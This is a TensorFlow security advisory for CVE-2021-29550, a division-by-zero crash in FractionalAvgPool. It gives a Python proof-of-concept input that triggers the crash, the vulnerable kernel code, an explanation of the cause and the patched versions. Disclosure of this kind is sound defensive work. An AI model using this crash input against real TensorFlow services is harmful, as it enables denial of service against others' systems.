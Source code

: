 ## TFSA-2021-038: Division by 0 in `FractionalAvgPool`

### CVE Number
CVE-2021-29550

### Impact
An attacker can cause a runtime division by zero error and denial of service in
`tf.raw_ops.FractionalAvgPool`:

```python
import tensorflow as tf

value = tf.constant([60], shape=[1, 1, 1, 1], dtype=tf.int32)
pooling_ratio = [1.0, 1.0000014345305555, 1.0, 1.0]
pseudo_random = False
overlapping = False
deterministic = False
seed = 0
seed2 = 0

tf.raw_ops.FractionalAvgPool(
  value=value, pooling_ratio=pooling_ratio, pseudo_random=pseudo_random,
  overlapping=overlapping, deterministic=deterministic, seed=seed, seed2=seed2)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/acc8ee69f5f46f92a3f1f11230f49c6ac266f10c/tensorflow/core/kernels/fractional_avg_pool_op.cc#L85-L89)
computes a divisor quantity by dividing two user controlled values:

```cc
for (int i = 0; i < tensor_in_and_out_dims; ++i) {
  output_size[i] = static_cast<int>(std::floor(input_size[i] / pooling_ratio_[i]));
  DCHECK_GT(output_size[i], 0);
}
```

The user controls the values of `input_size[i]` and `pooling_ratio_[i]` (via the
`value.shape()` and `pooling_ratio` arguments). If the value in `input_size[i]`
is smaller than the `pooling_ratio_[i]`, then the floor operation results in
`output_size[i]` being 0. The `DCHECK_GT` line is a no-op outside of debug mode,
so in released versions of TF this does not trigger.

Later, these computed values [are used as
arguments](https://github.com/tensorflow/tensorflow/blob/acc8ee69f5f46f92a3f1f11230f49c6ac266f10c/tensorflow/core/kernels/fractional_avg_pool_op.cc#L96-L99)
to
[`GeneratePoolingSequence`](https://github.com/tensorflow/tensorflow/blob/acc8ee69f5f46f92a3f1f11230f49c6ac266f10c/tensorflow/core/kernels/fractional_pool_common.cc#L100-L108).
There, the first computation is a division in a modulo operation:

```cc
std::vector<int64> GeneratePoolingSequence(int input_length, int output_length,
                                           GuardedPhiloxRandom* generator,
                                           bool pseudo_random) {
  ...
  if (input_length % output_length == 0) {
    diff = std::vector<int64>(output_length, input_length / output_length);
  }
  ...
}
```

Since `output_length` can be 0, this results in runtime crashing.

### Patches
We have patched the issue in GitHub commit
[548b5eaf23685d86f722233d8fbc21d0a4aecb96](https://github.com/tensorflow/tensorflow/commit/548b5eaf23685d86f722233d8fbc21d0a4aecb96).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
